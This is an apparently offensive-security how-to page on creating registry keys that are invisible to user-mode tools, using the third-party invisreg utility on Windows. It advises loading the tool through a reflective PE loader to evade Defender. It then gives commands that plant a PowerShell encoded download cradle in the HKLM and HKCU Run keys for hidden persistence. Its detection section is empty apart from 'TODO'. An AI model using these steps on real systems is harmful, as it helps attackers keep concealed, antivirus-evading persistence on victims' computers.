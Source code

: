 # Invisible Registry Keys
## Summary

It's possible to craft invisible registry keys that the Windows NT kernel is able to read, but not any user-mode applications. This allows for some unique cases of persistence that is hard to detect from the defenders perspective.

## Prerequisites

The target must be windows, and you must run this tool with the appropriate access rights required for the hive you're trying to write to. HKLM requires Administrator/SYSTEM privileges, HKCU can be modified by the current user.

## Setup

This setup requires downloading and executing the following utility, defender may or may not catch this file on disk. Potentially use a [reflective PE loader](./windows_reflective_pe_loader.md) to avoid this issue. The executable in question can be [found at this repo](https://github.com/NukingDragons/invisreg). Go to Releases and download the latest executable, compilation is not required.

## Execution

### Method 1 - invisreg.exe

Running invisreg.exe without any options will provide the following output:

```help
Usage: invisreg [operation] [path] [type] [value]
       operations:
         create - Create a new invisible registry key
         edit   - Edit an existing invisible registry key
         delete - Delete an existing invisible registry key
         query  - Query an invisible registry key
       path:
         Like this - HKLM:\PATH\TO\KEY
         supported hives:
           HKLM        - HKEY_LOCAL_MACHINE
           HKCU or HCU - HKEY_CURRENT_USER
           HKCR        - HKEY_CLASSES_ROOT
           HKCC        - HKEY_CURRENT_CONFIG
           HKU         - HKEY_USERS
       type:
         REG_SZ        - Value is expected to be a string
         REG_DWORD     - Value is expected to be a 32-bit integer
         REG_QWORD     - Value is expected to be a 64-bit integer
         REG_BINARY    - Value is expected to be the name of a file
       value:
         ...

Examples:
       invisreg create HKLM:\SOFTWARE\MICROSOFT\Windows\CurrentVersion\Run\KeyName REG_SZ "calc.exe"
       invisreg edit HKLM:\SOFTWARE\MICROSOFT\Windows\CurrentVersion\Run\KeyName REG_DWORD 1337
       invisreg delete HKLM:\SOFTWARE\MICROSOFT\Windows\CurrentVersion\Run\KeyName
       invisreg query HKLM:\SOFTWARE\MICROSOFT\Windows\CurrentVersion\Run\KeyName
```

To install a powershell cradle into the run key for persistence, the following command can be used:

```cmd
.\invisreg.exe create HKLM:\SOFTWARE\MICROSOFT\Windows\CurrentVersion\Run\Cradle REG_SZ "powershell -enc <base64>"
```

Or for a specific user:

```cmd
.\invisreg.exe create HKCU:\SOFTWARE\MICROSOFT\Windows\CurrentVersion\Run\Cradle REG_SZ "powershell -enc <base64>"
```

#### Indicators of Compromise

TODO
